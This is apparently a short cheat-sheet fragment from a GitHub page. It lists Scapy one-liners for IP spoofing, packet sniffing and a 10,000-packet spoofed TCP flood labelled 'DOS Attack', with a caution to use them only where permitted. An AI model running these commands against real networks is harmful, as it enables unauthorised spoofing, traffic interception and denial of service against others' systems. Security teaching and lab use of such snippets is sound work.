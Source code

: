 ```python
```

#### Some [Scapy](https://scapy.readthedocs.io/en/latest/) Fun (Please, please be careful with this and only use it in an environment with permission):

```python
IP Spoof: send(IP(src=“<attacker IP>”, dst=“<target IP>”)/ICMP()/“Hello world”)
Network Sniffing: sniff(iface=“<interface>”, prn=lambda x:x.summary)
BE CAREFUL WITH THIS NEXT ONE
DOS Attack: send(IP(src=“attacker IP”, dst=“<target>”)/TCP(sport=444, dport=444), count=10000)
```

[@pmccabe5](https://github.com/pmccabe5)  

